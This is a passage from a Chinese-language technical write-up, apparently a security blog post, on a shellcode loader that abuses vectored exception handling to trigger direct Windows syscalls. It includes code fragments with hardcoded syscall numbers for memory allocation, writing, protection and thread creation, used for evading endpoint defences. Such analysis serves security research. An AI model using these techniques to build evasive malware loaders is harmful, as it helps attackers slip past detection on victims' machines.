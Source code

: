 ```bash
// Continue execution at the new instruction pointer
        return EXCEPTION_CONTINUE_EXECUTION;
    }
    // Continue searching for another exception handler
    return EXCEPTION_CONTINUE_SEARCH;
```

## 异常触发

定义 VEH 函数后，必须找到一种方法来专门抛出`EXCEPTION_ACCESS_VIOLATION`异常。为此，所有原生 API（声明为指针）都通过对应的 SSN 直接在 shellcode 加载器中初始化。但是，由于定义为指针的变量（例如 `pNtAllocateVirtualMemory`）通常应指向内存地址而不是直接指向值，因此这会导致未授权的内存访问，从而通过`EXCEPTION_ACCESS_VIOLATION`触发 VEH 函数。

```bash
// Define syscall numbers for various NT API functions
enum syscall_no {
    SysNtAllocateVirtualMem = 0x18,    // Syscall number for NtAllocateVirtualMemory
    SysNtWriteVirtualMem = 0x3A,       // Syscall number for NtWriteVirtualMemory
    SysNtProtectVirtualMem = 0x50,     // Syscall number for NtProtectVirtualMemory
    SysNtCreateThreadEx = 0xC2,        // Syscall number for NtCreateThreadEx
    SysNtWaitForSingleObject = 0x4     // Syscall number for NtWaitForSingleObject
};

// Assign system call function pointers to their respective syscall numbers
_NtAllocateVirtualMemory pNtAllocateVirtualMemory = (_NtAllocateVirtualMemory)SysNtAllocateVirtualMem;
_NtWriteVirtualMemory pNtWriteVirtualMemory = (_NtWriteVirtualMemory)SysNtWriteVirtualMem;
_NtProtectVirtualMemory pNtProtectVirtualMemory = (_NtProtectVirtualMemory)SysNtProtectVirtualMem;
_NtCreateThreadEx pNtCreateThreadEx = (_NtCreateThreadEx)SysNtCreateThreadEx;
_NtWaitForSingleObject pNtWaitForSingleObject = (_NtWaitForSingleObject)SysNtWaitForSingleObject;
```

正如 cyberwarefare 的文章中所描述的，通过 SSN 初始化原生 API 的优点是可以有针对性地触发`EXCEPTION_ACCESS_VIOLATION`。另一方面，它的优点是 SSN 缓存在 rip 寄存器中，传递给向量异常处理程序，然后传递给 VEH 函数 `PvectoredExceptionHandler` 中的 rax 寄存器。

通过在 IDA 中进行调试，可以很好地看到这个过程。下图清楚地显示了尝试通过 SSN 初始化原生 API `NtAllocateVirtualMemory` `0x18`如何导致无效的内存访问尝试（[exc.code c0000005](https://stackoverflow.com/questions/17168982/exception-error-c0000005-in-vc)），从而引发访问冲突异常，传递到向量异常处理程序，将 `SSN 0x18`移动到 rip 寄存器，最后移动到 `rax` 寄存器。

[![](assets/1707954164-ef615cdac2c6259e01b6d872e69b349a.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20240205005418-0933c6ca-c37e-1.jpg)
